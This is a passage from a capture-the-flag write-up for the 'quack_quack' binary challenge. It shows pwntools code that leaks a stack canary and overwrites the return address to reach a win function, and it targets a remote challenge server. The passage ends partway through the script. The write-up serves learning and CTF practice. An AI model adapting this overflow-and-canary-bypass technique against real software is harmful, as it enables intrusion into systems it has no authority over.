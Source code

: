 ```python
        gdb.attach(proc)
        pause()
    return canary
```

### Modifying Return Address

Next is the function to securely modify the return address through [second read()](#second-read).

```python
def exploit(proc, duck_attack, canary, attach=True):
    rbp = 0x00007fffffffdbf0
    proc.recvuntil(b'> ')
    payload = b'B'*88 + p64(canary, endianness='little') + p64(rbp, endianness='little') + p64(duck_attack, endianness='little')
    proc.sendline(payload)
    res = proc.recvall(timeout=1)
    print(res.decode(errors="ignore"))
```

# Captured Flag

With the whole exploit code below, we are able to capture the flag!

```python
from pwn import *

def leak_address(proc, attach=False):
    proc.recvuntil(b'> ')
    payload = b'A'*89 + b'Quack Quack '
    proc.sendline(payload)
    
    response = proc.recvuntil(b'the Duck?')
    print("Response:\n", response)

    out = response.split(b'Quack Quack ')[1].split(b',')[0]
    print(f'Data extracted with offset 89: {out}')

    canary_bytes = out[:7]
    canary = u64(canary_bytes.rjust(8, b'\x00'))
    print(f"Canary value at offset: {hex(canary)}")

    if attach:
        gdb.attach(proc)
        pause()
    return canary

def exploit(proc, duck_attack, canary, attach=True):
    rbp = 0x00007fffffffdbf0
    proc.recvuntil(b'> ')
    payload = b'B'*88 + p64(canary, endianness='little') + p64(rbp, endianness='little') + p64(duck_attack, endianness='little')
    proc.sendline(payload)
    res = proc.recvall(timeout=1)
    print(res.decode(errors="ignore"))

def main():
    context.log_level = 'error'
    context.terminal = ['tmux', 'splitw', '-h']
    
    print("Starting exploit...")
    elf = context.binary = ELF('quack_quack')
    if args.REMOTE:
        proc = remote('94.237.120.194', 52817)
```